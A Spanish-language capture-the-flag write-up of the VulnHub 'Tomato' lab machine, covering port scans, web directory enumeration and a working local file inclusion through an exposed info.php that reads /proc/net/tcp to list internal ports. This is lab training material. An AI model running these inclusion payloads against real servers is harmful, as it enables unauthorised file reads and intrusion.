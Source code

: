 ```yaml
---
description: >-
  Writeup de la máquina de dificultad fácil Tomato de la página https://vulnhub.com
title: VulnHub - Tomato | (Difficulty Easy) - Linux
date: 2025-02-03
categories: [VulnHub, Writeup]
tags: [vulnhub, hacking, linux, easy, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/a573c604-628b-4722-9841-e730b529ce55
---
```


## Useful Skills

* FTP Enumeration
* Web enumeration
* Local File Inclusion through info.php file
* Internal Port Discovery through LFI (/proc/net/tcp)
* LFI to RCE via SSH log poisoning

## Enumeration

### TCP Scan

 ```bash
rustscan -a 192.168.2.139 --ulimit 5000 -g
192.168.2.139 -> [21,2211,80,8888]
```

```bash
nmap -p21,2211,80,8888 -sCV 192.168.2.139 -oN tcpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 18:26 CET
Nmap scan report for 192.168.2.139
Host is up (0.00033s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:30:C0:ED (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.31 seconds
```

### UDP Scan

 ```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 192.168.2.139 -oN udpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 18:27 CET
Nmap scan report for 192.168.2.139
Host is up (0.00027s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
17302/udp closed unknown
18683/udp closed unknown
28476/udp closed unknown
31365/udp closed unknown
32469/udp closed unknown
41702/udp closed unknown
MAC Address: 00:0C:29:30:C0:ED (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

### FTP Enumeration

La versión de FTP es vsftpd 3.0.3, busco posibles vulnerabilidades o exploits pero no encuentro nada interesante, por otro lado aunque nmap no me ha reportado anonymous login me intento loguear como anonymous, pero no obtengo nada, por lo que de momento el vector de ataque por FTP concluye 

### HTTP Enumeration

Whatweb no reporta nada interesante por el puerto 80/tcp HTTP

```bash
whatweb http://192.168.2.139
http://192.168.2.139 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.2.139], Title[Tomato]
```

Accediendo a la página en http://192.168.2.139 puedo observar una foto de un tomate

![imagen](https://github.com/user-attachments/assets/f0eab1be-a69e-4c63-9fcc-3d324e20cf4b)

Utilizo gobuster para realizar una enumeración exahustiva de directorios

```bash
gobuster dir -u http://192.168.2.139 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -q
/.htaccess            (Status: 403) [Size: 278]
/antibot_image        (Status: 301) [Size: 322] [--> http://192.168.2.139/antibot_image/]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 652]
/server-status        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
```

Observo un directorio llamado /antibot-image el cual es bastante llamativo, por que el resto de los resultado no llaman mucho la atención, accedo al mismo puediendo observar un directory listing con un directorio llamado antibots

![imagen](https://github.com/user-attachments/assets/721422cf-233e-4752-97ed-5b9a54823cab)

Accedo a /antibots y observo múltiples archivos PHP y directorios, uno de los archivo que capta mi atención es info.php, este archivo es el que permite mostrar información detallada sobre la configuración de PHP en un servidor.

![imagen](https://github.com/user-attachments/assets/3886314a-6676-4ea0-936f-4f08775e2d9b)

![imagen](https://github.com/user-attachments/assets/de50b33c-0f05-4ef5-8570-744e4d3de929)

```bash
curl -s -X GET http://192.168.2.139/antibot_image/antibots/info.php/\?image\=/proc/net/tcp | grep "</body></html>" -A 1000 |
sed 's/<\/div><\/body><\/html>//' | awk '{print $2}' | grep -v local_address | cut -d : -f 2 | sort -u |
while read port; do echo "Port -> $((0x$port))";done
Port -> 80
Port -> 2211
Port -> 8888
```
